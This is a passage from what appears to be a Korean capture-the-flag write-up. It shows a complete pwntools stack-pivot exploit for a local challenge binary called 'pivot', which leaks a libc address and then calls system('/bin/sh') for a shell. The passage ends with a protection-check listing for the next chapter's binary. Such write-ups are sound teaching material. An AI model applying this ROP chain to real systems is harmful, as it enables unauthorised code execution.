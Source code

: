 - 익스플로잇

```python
from pwn import *
from time import *

p = process('./pivot')
e = ELF('./pivot')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

ret = 0x40101a
pop_rdi = 0x4011e5
pop_rsi_r15 = 0x4011e7
pop_rdx = 0x4011eb
leave_ret = 0x40127b
bss = e.bss() + 0x800

payload = b'a' * 0x30 + p64(bss)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(bss) + p64(0)
payload += p64(e.sym['read']) + p64(leave_ret)
p.sendafter(b'laboratory.\n', payload)
sleep(1)

payload = p64(bss)
payload += p64(pop_rdi) + p64(e.got['read']) + p64(e.sym['puts'])
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(bss) + p64(0)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(e.sym['read']) + p64(leave_ret)
p.send(payload)
sleep(1)

l.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - l.sym['read']
binsh = list(l.search(b'/bin/sh'))[0]
system = l.sym['system']
payload = p64(bss) + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```

의도적으로 중간에 출력을 넣지 않는 이상, `sendafter`를 사용할 수 없기 때문에 `sleep(1)`을 추가해 익스 실행을 안정화시킵니다.

---
### Chapter 10

- 보호기법 분석

```bash
[*] '/home/The_Cure_Within_Reach/final'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
